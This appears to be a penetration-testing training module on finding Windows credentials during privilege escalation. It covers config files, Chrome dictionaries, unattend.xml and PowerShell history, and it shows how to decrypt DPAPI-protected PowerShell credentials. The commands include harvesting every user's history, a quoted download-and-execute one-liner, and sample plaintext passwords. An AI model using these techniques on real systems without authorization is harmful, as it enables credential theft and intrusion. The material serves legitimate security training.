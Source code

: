 During our privilege escalation enumeration, we may find credentials that lead directly to local admin access, grant us a foothold into the Active Directory domain environment, or even be used to escalate privileges within the domain. There are many places that we may find credentials on a system, some more obvious than others.

## Application Configuration Files

### Searching for Files

Against best practices, applications often store passwords in cleartext config files. We might be able to get credentials for a privileged local or domain account with an privileged user. We can use the [findstr](https://ss64.com/nt/findstr.html) utility to search for this sensitive information.
```powershell-session
PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

Sensitive IIS information such as credentials may be stored in a `web.config` file. For the default IIS website, this could be located at `C:\inetpub\wwwroot\web.config`, but there may be multiple versions of this file in different locations, which we can search for recursively.

## Dictionary Files

### Chrome Dictionary Files

Sensitive information such as passwords may be entered in an email client or browser-based application, which underlines any words it doesn't recognize. The user may add these words to their dictionary to avoid the distracting red underline.
```powershell-session
PS C:\htb> gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

Password1234!
```

## Unattended Installation Files

Unattended installation files may define auto-logon settings or additional accounts to be created as part of the installation. Passwords in the `unattend.xml` are stored in plaintext or base64 encoded.

### Unattend.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <AutoLogon>
                <Password>
                    <Value>local_4dmin_p@ss</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>2</LogonCount>
                <Username>Administrator</Username>
            </AutoLogon>
            <ComputerName>*</ComputerName>
        </component>
    </settings>
```

Although these files should be automatically deleted as part of the installation, sysadmins may have created copies of the file in other folders during the development of the image and answer file.

## PowerShell History File

### Command to

Starting with Powershell 5.0 in Windows 10, by default PowerShell stores command history to the file:

- `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.

### Confirming PowerShell History Save Path

As seen in the (handy) Windows Commands PDF, published by Microsoft [here](https://download.microsoft.com/download/5/8/9/58911986-D4AD-4695-BF63-F734CD4DF8F2/ws-commands.pdf), there are many commands which can pass credentials on the command line. We can see in the example below that the user-specified local administrative credentials to query the Application Event Log using [wevutil](https://ss64.com/nt/wevtutil.html).
```powershell-session
PS C:\htb> (Get-PSReadLineOption).HistorySavePath

C:\Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Reading PowerShell History File
```powershell-session
PS C:\htb> gc (Get-PSReadLineOption).HistorySavePath

dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02
```

We can also use this one-liner to retrieve the contents of all Powershell history files that we can access as our current user. This can also be extremely helpful as a post-exploitation step. We should always recheck these files once we have local admin if our prior access did not allow us to read the files for some users. This command assumes that the default save path is being used.
```powershell-session
PS C:\htb> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02
```

## PowerShell Credentials

PowerShell credentials are often used for scripting and automation tasks as a way to store encrypted credentials conveniently. The credentials are protected using [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API), which typically means they can only be decrypted by the same user on the same computer they were created on.

Take, for example, the following script `Connect-VC.ps1`, which a sysadmin has created to connect to a vCenter server easily.
```powershell
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
```

### Decrypting PowerShell Credentials

If we have gained command execution in the context of this user or can abuse DPAPI, then we can recover the cleartext credentials from `encrypted.xml`. The example below assumes the former.
```powershell-session
PS C:\htb> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\htb> $credential.GetNetworkCredential().username

bob


PS C:\htb> $credential.GetNetworkCredential().password

Str0ng3ncryptedP@ss!
```
